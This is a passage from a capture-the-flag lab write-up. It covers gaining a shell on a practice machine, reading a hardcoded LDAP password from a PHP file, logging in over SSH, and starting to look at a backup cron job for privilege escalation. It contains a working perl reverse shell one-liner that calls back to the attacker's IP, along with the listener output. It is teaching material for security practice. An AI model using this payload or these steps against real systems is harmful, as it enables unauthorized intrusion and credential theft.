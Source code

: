Nice, I got RCE now.

### Getting a shell

I can easily get a shell with a standard perl reverse shell payload:

`perl -e 'use Socket;$i="10.10.14.23";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.122] 34436
sh: no job control in this shell
sh-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
```

I don't have a lot of privileges though. I'll have to escalate to another user before I can find `user.txt`:
```
sh-4.2$ cd /home
cd /home
sh-4.2$ ls
ls
ls: cannot open directory .: Permission denied
```

I can read source files from the PHP application and find the password for ldapuser:
```
sh-4.2$ cat login.php
<!doctype html>
<?php
session_start();
$strErrorMsg="";

$username = 'ldapuser';
$password = 'e398e27d5c4ad45086fe431120932a01';
```

I'm now able to SSH in with those credentials and get `user.txt`:
```
# ssh ldapuser@10.10.10.122
ldapuser@10.10.10.122's password: 
[ldapuser@ctf ~]$ cat user.txt
74a8e8...
```

### Privesc

The content of `/backup` is interesting: there's a script that appears to run in a cronjob, archiving files into the folder:

```
[ldapuser@ctf backup]$ ls -la
total 52
drwxr-xr-x.  2 root root 4096 Feb  6 01:01 .
dr-xr-xr-x. 18 root root  238 Jul 31  2018 ..
-rw-r--r--.  1 root root   32 Feb  6 00:51 backup.1549410661.zip
-rw-r--r--.  1 root root   32 Feb  6 00:52 backup.1549410721.zip
-rw-r--r--.  1 root root   32 Feb  6 00:53 backup.1549410781.zip
-rw-r--r--.  1 root root   32 Feb  6 00:54 backup.1549410841.zip
-rw-r--r--.  1 root root   32 Feb  6 00:55 backup.1549410901.zip
-rw-r--r--.  1 root root   32 Feb  6 00:56 backup.1549410961.zip
-rw-r--r--.  1 root root   32 Feb  6 00:57 backup.1549411021.zip
-rw-r--r--.  1 root root   32 Feb  6 00:58 backup.1549411081.zip
```